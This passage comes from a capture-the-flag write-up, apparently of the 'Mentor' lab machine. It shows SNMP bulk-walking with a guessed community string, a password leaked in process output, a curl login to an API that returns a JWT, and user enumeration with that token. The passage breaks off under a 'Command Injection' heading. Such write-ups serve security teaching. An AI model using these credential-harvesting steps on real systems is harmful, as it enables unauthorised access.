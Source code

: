 
So `internal` is another string. When used on `snmpwalk`, there is a ton of output. `snmpbulkwalk` is a better tools because it uses threading to get the information and is faster.

```
$ snmpbulkwalk -v2c -c internal 10.129.228.102             
iso.3.6.1.2.1.1.1.0 = STRING: "Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (175048) 0:29:10.48
iso.3.6.1.2.1.1.4.0 = STRING: "Me <admin@mentorquotes.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "mentor"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
<TRUNCATED>
iso.3.6.1.2.1.25.4.2.1.5.2090 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
<TRUNCATED>
```

Within the output, there's a password, and we can verify that this is for `james` on the API.

{% code overflow="wrap" %}
```
$ curl -X POST http://api.mentorquotes.htb/auth/login -H 'Content-Type: application/json' -d '{"email":"james@mentorquotes.htb", "username":"james","password":"kj23sadkj123as0-d213"}'
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0"
```
{% endcode %}

### Command Injection

We can finally enumerate the API properly with this token:

{% code overflow="wrap" %}
```
$ curl -X GET http://api.mentorquotes.htb/users/ -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq
[
  {
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  },
  {
    "id": 4,
    "email": "fakeuser@mentorquotes.htb",
    "username": "fakeuser"
  },
  {
    "id": 5,
    "email": "james@mentorquotes.htb",
    "username": "fakeuser"
  },
  {
    "id": 6,
    "email": "testuser@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 7,
    "email": "newjames@mentorquotes.htb",
```